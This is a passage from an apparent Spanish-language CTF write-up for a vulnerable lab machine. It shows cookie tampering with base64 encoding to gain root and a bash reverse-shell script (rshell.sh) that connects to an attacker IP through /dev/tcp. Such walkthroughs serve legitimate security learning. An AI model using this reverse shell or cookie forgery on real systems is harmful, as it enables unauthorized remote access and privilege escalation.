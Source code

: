 ![Burp_decode](/assets/images/thm-writeup-vuln/vuln_decode.png)

- Modificamos la petición de nuestra **_cookie_**, la codificamos en **_base 64_** y obervamos en la respuesta que nos recibe como usuario **_root_**.

![Burp](/assets/images/thm-writeup-vuln/vuln_burp_root.png)

## 5. Exploit

- Con la información obtenida procedemos a crear una **_rshell.sh_**, desde la máquina atacante, como se observa a continuación:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.9.0.27/2222 0>&1
```
